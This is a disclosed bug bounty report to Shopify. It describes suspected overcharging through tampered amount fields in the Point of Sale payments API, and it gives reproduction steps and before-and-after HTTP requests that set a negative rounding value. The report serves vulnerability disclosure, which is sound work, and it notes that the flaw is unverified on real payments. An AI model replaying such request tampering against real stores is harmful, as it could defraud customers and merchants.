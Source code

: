 # [h1-2102] [Yaworski's Broskis] Suspected overcharge and chargebacks in PoS

## Report Details
- **Report ID**: 1089978
- **URL**: https://hackerone.com/reports/1089978
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-01-29T01:30:03.315Z
- **Disclosed**: 2021-12-03T14:51:37.311Z

## Reporter
- **Username**: xiridium
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Summary:

NOTE: This one need verification from the side of Shopify as we can't set up a real payment GW or check the logs of the test one

When checking out in PoS and paying with credit card, it is possible to manipulate numbers in the end request to overcharge a client (charge more than the item price) and to send money to the client from the store

```json 
{
    "payment": {
        "session_id": "9",
        "amount_in": 1.09,       <<<<<
        "amount_rounding": 0,    <<<<<<<
        "amount": 1.09,   <<<<<<<
        "device_id": 2131722262,
        "unique_token": "xxx",
        "amount_tip": 0,
        "card_source": "manual",
        "auto_finalize": false,
        "user_id": 64582418454,
        "amount_out": 0,     <<<<<
        "location_id": 52512587798,
        "charge": true
    }
}
```

There are four  values which interest us here: `amount`, `amount_in`, `amount_rounding` and `amount_out`. Those control how much the client is charged. They should follow the formula `amount = amount_in - amount_rounding - amount_out`. `amount`  should always remain the price of the cart.
 `amount_in` is how much is charged from the client. `amount_out` is how much is taken from the shop. Looks like `amount_rounding` is a number which is not taken from anyone and is in fact some in-fact-rounding-value.

Some of these values allow negative values which broadens our possibilities. Let's see how it works. 

## Steps To Reproduce:
You would need PoS in your show installed and installed on your phone (I used iphone with jailbreak to proxy data into Burp). https://apps.shopify.com/shopify-pos.

> NOTE: I have used the test store to work with the payments. In real case this might work differently, but since I couldn't find a way to approve that, I decided to submit it nonetheless.

Create a new order with an item. I will be using a $1.09 dummy item from my shop. Now start the checkout process and select credit card as a payment source.

{F1176221}

{F1176222}

Enter card details and be ready to intercept this request.
{F1176223}

We are looking for the similar `payments.json` request:
  
{F1176220}

```http
POST /admin/api/unstable/checkouts/5788adb325c4824f193d08daf474f21a/payments.json HTTP/1.1
Host: c0rv4x2.myshopify.com
...

{"payment":{"amount":1.09,"user_id":64582418454,"amount_rounding":0,"charge":true,"card_source":"manual","amount_out":0,"location_id":52512587798,"session_id":"east-fbc4aa9a711b9a5f13a0a76e9bd7c879","amount_tip":0,"amount_in":1.09,"auto_finalize":false,"device_id":2131722262,"unique_token":"4DA811C1-4824-4451-B576-290137624B1A"}}
```

Change `amount_in` to `2.09` (1 USD more than the current price) `amount_rounding` to `-1.0` (retracting that one dollar to make our equation from the begging of this report true).

```http
POST /admin/api/unstable/checkouts/5788adb325c4824f193d08daf474f21a/payments.json HTTP/1.1
Host: c0rv4x2.myshopify.com
...

{"payment":{"amount":1.09,"user_id":64582418454,"amount_rounding":-1.0,"charge":true,"card_source":"manual","amount_out":0,"location_id":52512587798,"session_id":"east-fbc4aa9a711b9a5f13a0a76e9bd7c879","amount_tip":0,"amount_in":2.09,"auto_finalize":false,"device_id":2131722262,"unique_token":"4DA811C1-4824-4451-B576-290137624B1A"}}
```

{F1176224}

## Similar behaviour

Similar behaviour is possible if we set `amount_out` to a non negative value (which would mean the shop is losing money).

## Impact

Potentially manipulate customers and shops money without their conscent

## Attachments
- 2021-01-29_04-20.png
- photo_2021-01-29_04-28-29.jpg
- photo_2021-01-29_04-28-28.jpg
- photo_2021-01-29_04-28-26.jpg
- photo_2021-01-29_04-28-24.jpg
